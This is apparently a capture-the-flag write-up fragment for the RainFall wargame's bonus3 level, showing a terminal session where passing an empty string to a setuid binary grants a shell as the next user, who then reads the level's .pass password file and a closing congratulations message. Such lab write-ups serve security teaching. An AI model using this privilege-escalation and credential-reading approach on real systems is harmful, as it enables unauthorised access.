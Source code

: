 ## bonus 03
```bash
bonus3@RainFall:~$ ./bonus3 ""
$ id
uid=2013(bonus3) gid=2013(bonus3) euid=2014(end) egid=100(users) groups=2014(end),100(users),2013(bonus3)
$ whoami
end
$ cd ../end
$ ls
end
$ cat .pqss
cat: .pqss: No such file or directory
$ cat .pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ cat end    
Congratulations graduate!
$ 
```
